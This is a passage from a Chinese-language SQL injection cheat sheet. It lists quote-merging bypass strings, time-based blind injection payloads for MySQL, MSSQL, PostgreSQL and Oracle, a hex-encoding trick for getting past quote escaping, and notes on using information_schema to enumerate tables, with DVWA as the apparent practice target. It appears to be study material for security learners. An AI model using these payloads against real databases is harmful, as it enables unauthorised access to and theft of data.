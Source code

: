 > 注意添加注释符时需要闭合 `''` , `""` 和 `()` 

可通过 Merging characters 来 Bypass

```
`+HERP
'||'HERP
'+'HERP
' 'HERP
'%20'HERP
'%2B'HERP
```

### 2.3. Time

通过是否执行延时命令判断

```
' AND SLEEP(3) --+ # MySQL
' AND IF(NOW()=SYSDATE(), SLEEP(3), 0) --+ # MySQL
' XOR (IF(NOW() = SYSDATE(), SLEEP(3), 0)) XOR 'Z # MySQL
' AND IF(SUBSTR(@@VERSION, 1, 1) = '5', SLEEP(3), 0) --+ # MySQL

' WAITFOR DELAY '00:00:05' --+ # MSSQL

'; SELECT CASE WHEN (1=1) THEN PG_SLEEP(3) ELSE PG_SLEEP(0) END --+ # PostgreSQL

' AND 1=(SELECT CASE WHEN (1=1) THEN DBMS_LOCK.SLEEP(3) ELSE 1 END FROM DUAL)--+ # Oracle
```

使用 URL 编码避免报错

## 3. DBMS

### 3.1. MySQL

支持十六进制编码, `table_schema='dvwa'` 可修改为 `table_schema=0x64767761` 以绕过对 `''` 和 `""` 的转义

元数据库 `information_schema` 

- 数据表 `tables` 存储了所有数据库中的所有表的信息

  > 字段 `table_schema` 存储数据库名
  >
  > 字段 `table_name` 存储该数据库下的表名

- 数据表 `columns` 存储了所有的数据表和字段的关系

  > 字段 `table_schema` 存储数据库名  
  >
  > 字段 `table_name` 存储表名  
  >
  > 字段 `column_name` 存储对应表中的字段名

## 4. Types
